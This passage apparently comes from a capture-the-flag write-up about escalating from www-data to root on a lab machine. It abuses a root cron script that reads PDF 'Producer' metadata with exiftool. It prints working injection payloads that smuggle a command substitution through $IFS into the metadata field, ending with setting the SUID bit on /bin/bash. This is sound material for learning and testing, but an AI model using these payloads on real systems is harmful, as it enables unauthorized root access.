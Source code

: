 That's the script which is cleaning dompdf fonts directory.

And i am guessing that this script is running from root because it is owned by root user and only root can execute it.
```bash
(remote) www-data@interface:/var/www$ ls -l /usr/local/sbin/cleancache.sh
-rwxr-xr-x 1 root root 346 Feb  8 12:57 /usr/local/sbin/cleancache.sh
```

Now, In the script, There is an interesting thing is that, PDF files generated with dompdf are stored in the `/tmp` dir and this script is removing these pdf file from `/tmp` dir by confirming that the pdf is generated with dompdf using `exiftool`.

* First, script extract pdf's metadata "Producer" header value.
* Then, compare it using "dompdf" string.

Here we can inject arbitrary code in the "Producer" header and could get command execution.

It is extracting first word from "Producer" header value, which separated using whitespace.
```bash
(remote) www-data@interface:/tmp$ exiftool -s -s -s -Producer *.pdf 2>/dev/null | cut -d " " -f1
dompdf
(remote) www-data@interface:/tmp$ exiftool -s -s -s -Producer *.pdf 2>/dev/null
dompdf 1.2.0 + CPDF
```

Here, we could use `IFS`,
* In Bash, `IFS` stands for "Internal Field Separator". It is a special shell variable that determines how Bash splits words into fields or tokens when it processes commands.
* By default, the value of IFS is set to whitespace.

```bash
exiftool -Producer='a[$(touch$IFS/tmp/root.test$IFS>&2)]' *.pdf
```
* script is executing in every 5 minutes

![](screenshots/root-exploit-test.png)

It worked, and there is also a blog  which is talking about this bash trick -> https://www.vidarholen.net/contents/blog/?p=716

Get root shell
```bash
exiftool -Producer='a[$(chmod$IFS+s$IFS/bin/bash$IFS>&2)]' *.pdf
```
